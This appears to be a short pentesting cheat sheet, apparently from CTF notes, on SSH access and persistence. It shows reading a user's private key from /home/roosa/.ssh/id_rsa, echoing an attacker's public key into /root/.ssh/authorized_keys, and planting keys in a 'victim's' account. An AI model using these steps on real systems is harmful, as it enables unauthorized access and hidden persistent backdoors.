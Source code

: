## Use private key

- A private SSH key is always a good place to start. We know that there’s a user called roosa and therefore her SSH key would be at a location ```/home/roosa/.ssh/id_rsa```

- All there’s left to do now is to save the roosa's key file, and use it to log into ssh.

- Make sure you chmod the key to 600 permissions 

- ```ssh roosa@<IP> -i <roosa's key>```


---

## Tiny public ssh key

use ssh-ed25519

example :

`echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys
`

## Connection dropped


- If connection immediately drops, it's probably because of the .bashrc. Move it by chaining a command : ```ssh user@ip ‘mv ~/.bashrc whatever’```

- Note that it is possible to execute everything at that moment !!

--- 

## Use public key


- The following command will retrieve the public key from a private key:

```ssh-keygen -y -f /path/to/your_private_key_file (eg. /root/.ssh/id_rsa or ~/.ssh/custom_key_name)```

- Then copy this public key in authorized keys file of the victim, and connect with the private key

---

## Permissions on .ssh directory

```
700 ~/.ssh
600 ~/.ssh/authorized_keys
```

